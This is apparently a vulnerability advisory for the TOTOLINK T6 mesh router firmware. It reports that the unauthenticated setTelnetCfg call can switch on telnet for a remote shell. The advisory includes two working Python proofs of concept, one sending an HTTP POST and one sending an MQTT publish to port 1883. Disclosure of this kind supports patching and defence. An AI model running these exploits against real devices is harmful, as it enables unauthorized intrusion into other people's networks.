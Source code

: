 # Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

An attacker can have remote shell on TOTOLINK Mesh Wifi T6 by turn on the `telnet` service.

# Vulnerability details

`setTelnetCfg` can be called to enable `telnet` service without authen. An attacker can send HTTP POST packet.<br>
Or attacker can send `MQTT` packet on port `1883`.

# POC HTTP

```python
import requests, sys

if len(sys.argv) != 2:
    data = b'''
    {
        "topicurl":"setTelnetCfg",
        "telnet_enabled":"1"
    }
    '''

    url = f"http://192.168.0.1/cgi-bin/cstecgi.cgi"

    requests.post(url, data=data)
```

# POC MQTT

```python
import paho.mqtt.client as mqtt
import sys

if len(sys.argv) != 2:
    data = b'''
    {
    "telnet_enabled":"1"
    }
    '''

    client = mqtt.Client()
    client.connect("192.168.0.1", 1883, 60)
    client.publish("totolink/router/setTelnetCfg",data)
```

# POC Video
[](https://www.youtube.com/watch?v=XeKu3tfeSME)